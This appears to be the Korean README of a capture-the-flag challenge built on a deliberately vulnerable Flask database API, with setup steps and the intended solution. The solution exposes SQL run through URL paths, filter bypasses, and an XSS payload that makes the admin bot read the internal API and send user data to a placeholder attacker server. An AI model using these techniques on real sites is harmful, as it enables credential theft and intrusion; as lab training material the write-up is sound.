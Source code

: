 # Bot, bot
[나는야쓰레기](https://open.kakao.com/o/sHmLvQuc) 출제 (2020.9.6)
## 개요
> Flask를 처음 배운 쓰레기는 DB API를 만들었습니다. 여러분은 취약점을 찾으실 수 있으신가요?

## 설치
`git clone` 이후 문제 디렉터리로 들어와서 다음 작업을 시작해주세요:
1. virtualenv 설치 : `python3 -m venv ./virtualenv`
2. Chromedriver 설치 - 운영체제에 맞게 설치해 주세요. (Ubuntu server에 경우 [이 글](https://somjang.tistory.com/entry/Ubuntu-Ubuntu-%EC%84%9C%EB%B2%84%EC%97%90-Selenium-%EC%84%A4%EC%B9%98%ED%95%98%EA%B3%A0-%EC%82%AC%EC%9A%A9%ED%95%98%EA%B8%B0)을 참고해 주세요)
3. 플래그 및 데이터베이스 설정 - 4개의 플래그, 4개의 데이터베이스가 있어야 합니다. /flag1.txt부터 /flag4.txt까지 플래그를 넣어주고, SQLite를 이용해서 /db/database1.db부터 /db/database4.db까지 스키마를 설정해 주세요. 
4. 자동실행을 위해서는 `run.sh`를 실행해 주세요.

## 의도한 풀이

출제의도: XSS및 SSRF

레벨 1은 API에 익숙해지기 위한 문제입니다. `/api`페이지로 들어가 사용법 예시를 보면, 경로를 이용해 SQL 쿼리를 실행시킬 수 있음을 알 수 있습니다. DB 전체 정보를 보기 위해 `/api/select/*/from/users`로 접속하면 전체 데이터베이스를 볼 수 있고, 관리자의 아이디와 비밀번호를 얻어 로그인하면 플래그를 얻을 수 있습니다.

레벨 2는 XSS를 통해 SSRF를 일으키는 문제입니다. `/error`에 메시지를 쓰면 관리자가 확인하는데(selenium 봇으로 구현했습니다), 이때 필터링이 없기 때문에 XSS가 발생합니다. 관리자는 *localhost*에서 작업중이기 때문에 API에 접근할 수 있고, 따라서 SSRF를 발생시킬 수 있습니다.

예시 코드는 다음과 같습니다:
```
<script>
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if (xhr.readyState === xhr.DONE) {
      document.location = '결과를 받을 서버 주소/?' + xhr.responseText;
  }
};
xhr.open('GET', 'http://127.0.0.1:10000/api/select/*/from/users');
xhr.send(); 
</script>
```

레벨 3과 4는 간단한 필터링 우회입니다. 
레벨 3의 SQL 필터는 `select * from users`를 `select id, password from users`로 고쳐서(다만 누가 admin인지 알 수 없기 때문에 모든 계정을 시도해봐야 합니다), 레벨 4의 XSS 필터는 `onload` 이벤트 핸들러 등을 사용해서 우회할 수 있습니다.
